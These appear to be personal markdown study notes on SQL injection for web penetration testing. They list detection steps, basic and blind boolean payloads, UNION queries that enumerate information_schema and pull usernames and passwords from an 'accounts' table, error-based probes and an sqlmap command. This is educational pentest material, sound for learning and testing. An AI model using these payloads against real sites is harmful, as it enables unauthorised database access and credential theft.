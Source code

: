 
## SQL Testing :


- __Define__ all the user inputs and fields 

- __Confirm__ the web app backend runs SQL. One way of confi rming that the application is interacting with a backend
              database is to submit the SQL wildcard character % in a given parameter

- __Submit a single quotation__ mark as the item of data you are targeting.


- Observe whether an error occurs, or whether the result differs from the original in any other way.
  

- __submit two single quotation__ marks together for testing. Sometimes one single quote is not enough to show the error.


__Basic Payloads___


    >> ' OR 1=1 ;--
    
    >> ') OR 1=1; --
    
    
- __URL encodings__ are necessary whether you are editing the parameter’s  value directly from your browser, with an intercepting 
                    proxy, or through any other means.
    
    

&nbsp; 
 &nbsp; 
 &nbsp; 
   
### Blind SQL : 

This type of SQL injection is based on booleans : True or False .


- ' and 'a'='a

- ' and 'a'='b

- ' and substring(@@version,1,1)='5   &nbsp; |  &nbsp; find the version of the db


if you get a error means that SQL vulnerability is error based, if not means blind SQl.

For Blind SQL, we need to focus on the behavior of the application and try different queries :

>>> ' and 'a'='a    |  if data displayed mean that there is SQL vulnerability 


>>> ' UNION SELECT null;-- - |  this command is used to enumerate the database in order to know the number of columns it has


>>>  ' UNION SELECT "else1";-- - | test the query with string,or intger to see the type of data in the columns

>>>> 99999 ' UNION SELECT null;-- - |  to display our entered data on the fields


>>>  99999 UNION SELECT @@version;| @@version is to know the version of the db

>>>




Automate the process of SQL blind
>> script 

&nbsp; 
 &nbsp; 
 &nbsp; 
   
### Band SQL:

- ' and 'a'='a

- ' and 'a'='b

- 9999' UNION SELECT name,222,'else1' FROM master.syslogin; --

### Error based SQL:

- 1 or db_name()=1);

- 1 or db_name(0)=1) | increase the number until the database does not show any errors

- 

 
 &nbsp; 
 &nbsp; 
 &nbsp; 
   
### SQLmap:

- sqlmap  &nbsp; -u URL  &nbsp; -p search  &nbsp; --technique=U |  &nbsp; U for Union Selection



## [PentesMonkey CheatSheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

 &nbsp; 
 &nbsp; 
 &nbsp; 
------------------------------------------------------------------------------------------------------------------------------

## [Notes from Udemy Course]

>> http://www.site.com/news/php=7' order by 1 # |  &nbsp;  use order by 1 followed by # as a comment 

__URL Encoding__:  http://www.site.com/news/php=7' order by 1 %23

order by shows how many columns in the DB

 &nbsp; 
 &nbsp

>> ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb'

__information_schema__ is a default schema in every database

__table_schema__ is the database name 

__table_name__ is the name of the table 


The above SQL command should return the name of the schemas in the database 

 &nbsp; 
 &nbsp;
 
>>>> ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts'

>>> ' union select username, pass, is_admin from 'accounts'


&nbsp; 
&nbsp;

### Blind SQL:

Every type of injection has different discovery methods. for the Blind SQL, booleans are the key players in understanding 

whether the web app is vulnerable to the injections


>> 1' and 1=1 &nbsp; | nbsp; True 

>> 1' and 1=0 &nbsp; 
|  &nbsp; False 


>> 1' order by 1 &nbsp; 
|  &nbsp; True


>> 1' order by 10000 &nbsp; 
| &nbsp; False



__Note:__

- The exploitation part is similar to all other types of SQL injections 

- When pentesting a web application, always start with the Blind Injections as they are the complex ones, and can show

  the behavior of the application. The error based are very clear and straightforward, as they show the outputs on 

  the screen 






